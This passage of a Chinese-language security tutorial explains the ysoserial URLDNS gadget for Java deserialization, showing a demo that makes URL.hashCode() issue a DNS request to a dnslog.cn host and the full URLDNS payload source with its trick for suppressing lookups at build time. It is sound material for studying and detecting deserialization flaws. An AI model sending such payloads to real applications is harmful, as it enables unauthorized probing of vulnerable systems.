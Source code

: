 ![undefined](https://p2.ssl.qhimg.com/t01ff50a052cea45622.png "undefined")

看看`handler.hashCode()`函数是如何实现的，这里利用一个`Demo`代码来调试看看。

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
先看看请求之后的结果，成功触发了`DNS`请求，来看看是如何实现的。

![undefined](https://p5.ssl.qhimg.com/t018dfa7a3bff56cca6.png "undefined")

调试跟进`java/net/URLStreamHandler.java`中的`hashCode()`函数，可以看到这里调用了一个函数`getHostAddress()`来进行`DNS`解析返回对应的`IP`。

![undefined](https://p4.ssl.qhimg.com/t015929d45775f32807.png "undefined")

在`ysoserial`中是通过`put()`函数来触发的，其实这一步的实现和前面的是一样的，都是通过`hash()`函数来实现的。

![undefined](https://p4.ssl.qhimg.com/t016ba85445740f6fc6.png "undefined")

但是上面的分析过程仿佛和反序列化并没有什么关联，其实当`HashMap`传入一个`URL`对象时，会进行一次`DNS`解析，并且`HashMap`实现了`Serializable`接口，重写了`readObject`，也就是说当一个`Java`应用存在反序列化漏洞时，可以通过传入一个序列化后的`HashMap`数据(将`URL`对象作为`key`放入`HashMap`中)，当传入的数据到达该`Java`应用的反序列化漏洞点时，这时程序就会调用`HashMap`重写的`readObject()`函数来反序列化读取数据，进而触发`key.hashCode()`函数进行一次`DNS`解析。

## ysoserial 项目代码分析
在`ysoserial`项目中`URLDNS`的代码并没有这么简单，还有一些其他的代码段，来看看这些"多余的"代码的用处是啥。

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
这里通过继承`URLStreamHandler`类，重写`openConnection()`和`getHostAddress()`函数，而这里重写的目的在于: `HashMap#put`时也会调用`getHostAddress()`函数进行一次`DNS`解析，这里就是通过重写的`getHostAddress()`函数来覆盖掉原函数，从而使其不进行`DNS`解析，避免在`Payload`在创建的时候进行`DNS`解析。
